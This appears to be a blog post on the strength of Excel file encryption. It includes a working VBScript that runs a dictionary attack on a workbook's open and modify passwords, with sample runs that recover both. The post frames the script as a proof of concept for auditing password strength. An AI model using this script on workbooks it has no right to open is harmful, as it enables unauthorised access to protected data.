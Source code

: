 ```yaml
---
title:  "Dictionary Attack on Excel Passwords"
---
```


![Logo](/assets/images/tux-root.png)

## Context 

When thinking about the security of encrypted Excel documents, I found a great article analyzing security of encryption algorithms for Excel spreadsheets [1]. The bottom line is that:
Encryption in Excel 2007 IS secure only for ".docx". For ".doc" it's NOT secure with default settings
Encryption in Excel 2002 and 2003 IS secure, but NOT when used with default settings!
Encryption in Excel 95, 97 and 2000 is NOT secure at all.
Instructions on how to make sure you're using the most secure algorithms and how to change the default settings in the referenced link.

## How to set/change password to open and password to modify
Changing/removing the password to open a file is pretty straight-forward in Excel 2007-2010: from the File menu, chose Info, then Encrypt with password. 
Changing the password to modify I found is not so straight-forward. To set/remove a "read-only" password, from the Save or Save As dialog boxes, select General Options from the Tools drop-down menu to open the General Options dialog box. There, in the Password to modify box, you can enter the new password or blank to remove the current one. 

## Dictionary attack
If the password is a dictionary word, then it's pretty easy to find it. I've made a small vbs script to attack these 2 passwords (password to open and password to modify)  using words from a dictionary file. This could also be extended to something like the rules in jtr to intelligently guess/brute-force more passwords, based on tendencies (e.g. KoreLogic John rules [3]). 
It's just a proof of concept, and it's very slow, it could be extended to use more threads or optimized.
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
' *****************************************************************
' Dictionary attack on Excel passwords
'
' Uses Workbooks.open method and a password dictionary to test:
' 1) password to open 
' 2) password for write access, using open password
'
' Usage: "CScript excel-pw-attack.vbs <test .xls=""> <words .dic="">"
'
' Full Description:
' http://insecure.tk/......
' *****************************************************************
Option Explicit
On Error Resume Next
 
Dim objExcel
Set objExcel = WScript.CreateObject("Excel.Application")
objExcel.visible=False
 
Dim args
if WScript.Arguments.Count < 2 or WScript.Arguments.Count > 3 then
   WScript.Echo "Usage: "
   WScript.Echo "Search password for open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file="">"
   WScript.Echo "Search password for modify, using password to open: "
   WScript.Echo "   CScript " & WScript.ScriptName & " <excel file=""> <dictionary file=""> <open password="">"
   WScript.Quit 1
end if
 
' Excel file should be in the script's directory
Dim xlsFile, currentPath
currentPath = replace(WScript.ScriptFullName, WScript.ScriptName, "")
xlsFile = currentPath & WScript.Arguments(0)
WScript.Echo "Brute-forcing excel file: " & xlsFile
WScript.Echo "Using dictionary file: " & WScript.Arguments(1)
if WScript.Arguments.Count = 3 then
 WScript.Echo "Using open password " & WScript.Arguments(2) & " to get the write password"
end if
 
' Read the passwords from the dictionary file
Dim objFSO
Set objFSO = CreateObject("Scripting.FileSystemObject")
 
Dim objFile
Const ForReading = 1
Set objFile = objFSO.OpenTextFile(currentPath & WScript.Arguments(1), ForReading)
 
Dim currLine, bFound
bFound = False
While Not bFound And Not objFile.AtEndOfStream
 currLine = objFile.ReadLine
 WScript.Echo "[*] Testing solution " & currLine
 if WScript.Arguments.Count = 3 then
  objExcel.Workbooks.Open xlsFile, , , , WScript.Arguments(2), currLine
 else
  ' Try to open it in read-only mode
  objExcel.Workbooks.Open xlsFile, ,True , , currLine
 end if
 if Err.Number >  0 then
  'WScript.Echo Err.Description & Err.Number
  Err.Clear
 else
  bFound = True
  if WScript.Arguments.Count = 3 then
   WScript.Echo "[+] Found password for modifying: " & currLine
  else
   WScript.Echo "[+] Found password for opening: " & currLine
  end if
 end If
Wend
 
if not bFound then
 if WScript.Arguments.Count = 3 then
  WScript.Echo "[-] Not found password for modifying."
 else
  WScript.Echo "[-] Not found password for opening."
 end if
end if
 
 
objExcel.Workbooks.Close
objFile.close
</open></dictionary></excel></dictionary></excel></words></test>
An example of how to use it on a test document with these 2 passwords set:
1. Find password to open:
?
1
2
3
4
5
6
7
>cscript excel-pw-attack.vbs test.xls words_en.txt
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
[+] Found password for opening: rock
2. Find password to modify: 
?
1
2
3
4
5
6
7
8
>cscript excel-pw-attack.vbs test.xls words_en.txt rock
Microsoft (R) Windows Script Host Version 5.8
Copyright (C) Microsoft Corporation. All rights reserved.
 
Brute-forcing excel file: C:\...\test.xls
Using dictionary file: words_en.txt
Using open password rock to get the write password
[+] Found password for modifying: paper


## References
[1] How safe is Excel encryption?
[2] Excel 2007 Encryption Strength
[3] KoreLogic custom password rules for John
[4] excel-pw-crack.vbs
